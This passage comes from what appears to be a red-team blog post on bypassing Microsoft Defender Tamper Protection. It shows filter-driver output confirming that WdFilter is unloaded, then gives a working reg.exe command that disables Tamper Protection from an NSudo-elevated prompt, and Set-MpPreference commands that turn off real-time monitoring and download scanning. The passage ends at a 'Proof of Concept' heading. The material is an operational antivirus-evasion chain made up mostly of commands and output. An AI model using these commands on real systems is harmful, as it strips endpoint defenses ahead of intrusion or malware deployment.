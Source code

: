 ```
C:\Users\Administrator> fltmc

Filter Name                     Num Instances    Altitude    Frame
------------------------------  -------------  ------------  -----
bindflt                                 0       409800         0
storqosflt                              0       244000         0
wcifs                                   0       189900         0
CldFlt                                  0       180451         0
FileCrypt                               0       141100         0
luafv                                   1       135000         0
npsvctrig                               1        46000         0
Wof                                     1        40700         0
```

Now that the WdFilter kernel minidriver is no longer loaded and protecting the Defender Registry Keys, successfully proceed to disable these unprotected keys, in this case the Tamper Protection regkey as it is the next protection chain in line to finally in turn disable defender protections like RealTimeMonitoring.

Continue disabling Tamper Protection using reg.exe in the newly spawned NSudo elevated prompt as before by setting the `TamperProtection` subkey to `4/0`:

```
# Command prompt with elevated privileges
C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64> reg add "HKLM\SOFTWARE\Microsoft\Windows Defender\Features" /v TamperProtection /t REG_DWORD /d 4 /f
The operation completed successfully.
```

Finally, since Tamper Protection is now disabled leaving Defender / MDE settings vulnerable to change, disable AV and AMSI in a standard PowerShell Administrator prompt (SYSTEM / TrustedInstaller privileges are not mandatory) using the following commands:

```
# Disable realtime monitoring altogether
PS C:\Users\Administrator> Set-MpPreference -DisableRealtimeMonitoring $true

# Only disables scanning for downloaded files or attachments
PS C:\Users\Administrator> Set-MpPreference -DisableIOAVProtection $true
```

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Bypass-Tamper-Protection/Images/Pasted%20image%2020221124183431.png)

*NOTE: Even though Tamper Protection is effectively disabled now, it takes a a reboot to render the same change in the "Security Settings" GUI Prompt.*

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Bypass-Tamper-Protection/Images/Pasted%20image%2020221124183731.png)

The attack chain can be summarized as follows:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Bypass-Tamper-Protection/Images/edited.png)



## Proof of Concept
